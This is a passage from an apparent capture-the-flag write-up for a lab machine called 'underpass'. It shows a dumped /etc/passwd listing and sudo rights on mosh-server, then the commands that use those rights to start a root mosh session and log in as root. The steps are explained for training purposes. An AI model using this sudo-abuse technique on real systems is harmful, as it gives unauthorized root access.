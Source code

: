 ```c
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
fwupd-refresh:x:113:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
freerad:x:114:120::/etc/freeradius:/usr/sbin/nologin
mysql:x:115:121:MySQL Server,,,:/nonexistent:/bin/false
Debian-snmp:x:116:122::/var/lib/snmp:/bin/false
tftp:x:117:123:tftp daemon,,,:/srv/tftp:/usr/sbin/nologin
svcMosh:x:1002:1002:svcMosh,60001,8675309,8675309:/home/svcMosh:/bin/bash
_laurel:x:998:998::/var/log/laurel:/bin/false
```

This time got lucky and found `(ALL) NOPASSWD: /usr/bin/mosh-server` as output of `sudo -l` which basically meant that we could start an `instance` with `mosh-server` to `login` too.

```c
svcMosh@underpass:~$ sudo -l
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
```

## Privilege Escalation to root

We read the documentation and created a new `instance`.

- [https://linux.die.net/man/1/mosh-server](https://linux.die.net/man/1/mosh-server)
- [https://mosh.org/#usage](https://mosh.org/#usage)

```c
svcMosh@underpass:~$ sudo /usr/bin/mosh-server new


MOSH CONNECT 60001 iey35k7JN06zfc03GeNGEQ

mosh-server (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

[mosh-server detached, pid = 3395]
```

Then we used the `key` the `mosh-server` was offering us to login on port `60001/UDP` and got granted with a `shell` as `root`.

```c
svcMosh@underpass:~$ MOSH_KEY=iey35k7JN06zfc03GeNGEQ mosh-client 10.129.106.165 60001
```

```c
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sat Dec 21 08:26:18 PM UTC 2024

  System load:  0.07              Processes:             229
  Usage of /:   86.9% of 3.75GB   Users logged in:       1
  Memory usage: 13%               IPv4 address for eth0: 10.129.106.165
  Swap usage:   0%
```